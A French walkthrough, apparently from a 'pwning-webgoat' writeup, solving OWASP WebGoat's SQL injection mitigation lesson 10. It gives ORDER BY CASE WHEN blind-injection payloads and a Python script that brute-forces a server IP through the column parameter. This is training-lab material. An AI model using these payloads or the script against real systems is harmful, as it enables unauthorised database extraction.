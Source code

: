![SQLi Mitigation 6](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/sqli-mitigation-6.png)

10.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Leçon buggée avec la dernière version, l'appel vers http://localhost:8080/WebGoat/SqlInjection/servers renvoie une erreur.

![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Try sorting and look at the request  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Intercept the request and try to specify a different order by  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use for example "(case when (true) then hostname else id end)" in the order by and see what happens

*   Trier les colonnes (par IP par exemple) effectue une requête vers http://localhost:8080/WebGoat/SqlInjection/servers?column=ip. Cela peut être exploité en interceptant la requête avec les outils de développement du navigateur et en fournissant une requête SQL comme valeur de colonne.
*   Pour avoir une idée de l'adresse IP de **webgoat-prd**, il faut trouver le nom des colonnes dans les tables pour les noms de serveur et les IP. La supposition évidente est **servers** and **ip**.  
    `column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
*   Si les noms de table sont corrects, le tableau devrait être trié par **ids**.
*   C'est le cas, la supposition était donc correcte.
*   Afin de tester la logique on peut essayer de déclencher une erreur avec :  
    `column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)`
*   On tombe sur une page d'erreur, on a tout pour écrire le script maintenant.
  
```python
import json  
import requests  
  
def sql_injection_mitigation_10():  
	 index = 0  
  
	 headers = {  
		 'Cookie': COOKIE,
	 }  
  
	 while True:  
		 payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  
  
		 r = requests.get('http://host:port/WebGoat/SqlInjection/servers?column=' + payload, headers=headers)  
  
		 try:  
			 response = json.loads(r.text)  
		 except:  
			 print("Wrong JSESSIONID, find it by looking at your requests once logged in.")  
			 return  
  
		 if response[0]['id'] == '1':  
			 print('webgoat-prd IP: {}.130.219.202'.format(index))  
			 return  
		 else:  
			 index += 1  
			 if index > 255:  
				 print("No IP found")  
				 return  
  
sql_injection_mitigation_10()
```
